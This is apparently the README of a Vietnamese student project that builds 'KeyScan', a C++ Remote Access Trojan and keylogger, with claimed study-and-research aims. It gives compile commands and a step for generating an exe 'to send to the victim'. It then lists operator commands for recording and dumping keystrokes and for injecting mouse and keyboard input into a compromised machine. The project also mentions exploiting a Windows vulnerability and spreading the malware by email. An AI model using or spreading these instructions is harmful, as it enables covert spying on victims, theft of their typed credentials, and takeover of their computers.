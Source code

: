 

# Project Title

Nghiên cứu, phát triển chương trình mã độc Remote Access Trojan

# PTITHCM_TTCS_NHOM1

Nội Dung:
- Tìm hiểu và xây dựng chương trình mã độc RAT, bằng ngôn ngữ C++ nhằm mục đích học tập & nghiên cứu
- Tìm hiểu và ứng dụng khai thác một lỗ hổng bảo mật trên Windows để triển khai mã độc.
- Tìm hiểu cách một chương trình mã độc được phát tán qua Email.
- 
Thực nghiệm:
- Xây dựng mã độc Remote Access Trojan và server quản lý tập trung máy tính nạn nhân


Nhóm 1 - Thành viên:
- Đinh Quốc Toàn 
- Lý Thanh Tuấn
- Đào Duy Tâm
- Nguyễn Trần Hùng Biện
- Đinh Văn Hậu

# Platforms
* Linux ✅️
* Windows ✅️
* Termux (Android) ✅️

# Requirements
* GCC and MingWG on Linux and Termux
* MingWG on Windows

# Installation on Linux and Termux
```
git clone https://github.com/BluePhoenixxx/PTITHCM_TTCS_NHOM1.git
cd PTITHCM_TTCS_NHOM1
g++ main.cpp -o keylogger
./PTITHCM_TTCS_NHOM1
```
# Installation on Windows
```
g++ main.cpp -o keylogger.exe -lws2_32
.\keylogger.exe
```
# Sending the exe file to the victim
If you're working on Linux you need to install mingw for compiling C++ windows programs on linux.
install it using:
```
sudo apt-get install mingw-w64
```
And on termux using:
```
git clone https://github.com/mirror/mingw-w64.git;
cd mingw-w64\n";
./configure --prefix=$PREFIX --without-crt;
DESTDIR=$PREFIX make install;
```
# How to use KeyScan?.
Set the local ip and port number using these commands.
```
lhost ip
lport port number
```
Then type exploit and the program will generate the .exe file that needs shall be send to the victim.
# KeyScan Commands
```
SETTING OPTIONS: Set this options before lauching the attack!
Command                           Discribtion
-------                           ------------
lhost                              Sets the local host or ip address to listen on.
lport                              Sets the local port number to listen on. default 4444
exploit                            Run the script.
help                               Print this help message
clear                              Clear screen
exit                               Exit program
SESSION COMMANDS: This commands are only valid when a session is opened
LOGGING KEYSTROKES:
====================
keyscan_start                      Start capturing keystrokes
keyscan_dump                       Dump the captured keystrokes buffer.
keyscan_stop                       Stop capturing keystrokes.
SENDING MOUSE EVENTS:
=====================
mouse_move x y                     Move the mouse to x and y coordinates. The value range of x and y is 0-65535
mouse_click left                   Left click
mouse_click right                  Right click
mouse_click middle                 Click the middle mouse button
mouse_click double                 Double click the left mouse button
SENDING KEYBOARD EVENTS:
========================
keyboard_send                      Send keystrokes. This must be followed by the keys(or text) you want to send
keyevent                           Send keyboard events. like CTRL+C, ALT+F4.
                                    you must use the '+' sign to indicate that the keys should be press together.
                                    for a single key just type the key name example 'keyevent SHIFT' to press the shift key.
Supported keyevents:
A-Z, F1-F12, SHIFT, ENTER, SPACE, BACKSPACE, ALT, ESC, PAGEUP, PAGEDOWN, HOME, LEFTARROW, RIGHTARROW, UPARROW
DOWNARROW, PRINTSCRN, INSERT, DELETE, CAPS
These values are case sensetive. You must use them in upper case except for A-Z(you can use them in upper or lower case).
EXAMPLES:
keyboard_send You have been hacked!
keyevent CTRL+c
keyevent ALT+F4
keyevent ENTER
tmouse_move 2345 345
mouse_click right
```